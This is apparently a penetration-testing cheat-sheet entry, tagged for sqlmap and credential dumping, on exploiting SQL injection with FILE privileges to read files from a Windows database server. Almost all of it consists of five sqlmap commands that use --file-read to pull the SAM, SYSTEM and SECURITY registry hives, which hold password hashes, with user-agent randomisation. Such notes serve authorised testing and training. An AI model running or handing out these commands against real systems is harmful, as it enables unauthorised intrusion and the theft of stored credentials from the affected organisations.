 # Windows

Search Tag: #sqlmap #enumeration-and-discovery #credential-access-and-dumping

## Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
2. **Note:** Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## Automated

```
$ sqlmap -u "<URL>" --random-agent --file-read="C:/Windows/Repair/SAM"

$ sqlmap -u "<URL>" --random-agent --file-read="C:/Windows/Repair/SYSTEM"

$ sqlmap -u "<URL>" --random-agent --file-read="C:/Windows/System32/config/security"
           
$ sqlmap -u "<URL>" --random-agent --file-read="C:/Windows/System32/config/system"

$ sqlmap -u "<URL>" --random-agent --file-read="C:/Windows/System32/config/sam"
```